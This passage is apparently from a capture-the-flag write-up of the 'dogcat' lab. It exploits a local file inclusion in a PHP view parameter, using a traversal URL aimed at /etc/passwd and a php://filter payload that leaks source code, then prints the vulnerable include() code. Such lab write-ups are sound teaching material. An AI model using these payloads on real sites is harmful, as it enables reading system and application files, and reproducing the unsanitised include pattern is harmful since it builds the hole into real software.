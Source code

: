 ```bash
http://$IP/?view=dog
```

Once we clicked on a button the URL has a view parameter with “dog” or “cat” assigned. I instantly thought of Local File Inclusion (LFI), so let’s try something:

```bash
http://$IP/?view=..%2F..%2F..%2F..%2F..%2F..%2Fetc/passwd
```

But sadly the developer of the webpage took care of that and checks wether or not “dog” or “cat” is in the value of the view parameter, so once we write “dog” somewhere in the path, we see this:

{% asset_img lfi.png %}

Apparently warnings were not disabled in the php settings, so we can see that there was an error in the “include()” function. We can also see that the contents of the view parameter are being passed straight into that function, and that they automatically append a .php extension, somewhere in the code.

So what can we do with this information? We need to find a way to exfiltrate information from that webpage. I came accross [this](https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/) website. Let’s try this:

{% asset_img lfi2.png %}

Awesome it worked!

Of course this is still base64, but we can easily decode that online for example [here](https://www.base64decode.org/).<br/>Just to recap, we used this URL:

```bash
http://$IP/?view=php://filter/convert.base64-encode/resource=./dog/../index
```

To show the code of the index page, encoded in base64. If we deocde this, we can see the source code of the index page, which let’s us see what is going on under the hood.

The exfiltrated code:

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
```